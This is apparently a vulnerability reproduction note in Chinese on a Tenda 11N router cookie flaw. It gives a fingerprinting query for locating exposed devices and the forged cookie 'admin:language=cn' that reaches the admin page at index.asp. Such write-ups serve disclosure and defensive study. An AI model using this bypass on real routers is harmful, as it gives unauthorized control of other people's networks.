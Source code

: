 # Tenda 11N无线路由器 Cookie 越权访问漏洞

## 漏洞描述

Tenda 11N无线路由器由于只验证Cookie，导致任意用户伪造Cookie即可进入后台

## 漏洞影响

```
Tenda 11N无线路由器
```

## 网络测绘

```
app="TENDA-11N无线路由器"
```

## 漏洞复现

登录页面

![image-20220519180949727](./images/202205191809768.png)

添加Cookie, 访问 index.asp 进入后台

```
admin:language=cn
```

![image-20220519181248549](./images/202205191812628.png)